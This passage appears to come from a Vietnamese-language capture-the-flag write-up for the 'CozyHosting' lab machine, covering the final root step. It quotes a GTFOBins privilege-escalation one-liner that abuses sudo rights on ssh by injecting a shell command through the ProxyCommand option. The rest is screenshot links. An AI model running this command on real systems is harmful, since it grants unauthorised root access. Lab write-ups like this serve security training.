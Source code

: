 Josh pwned!

### Root

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%2016.png)

Payload từ GTFobins: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%2017.png)
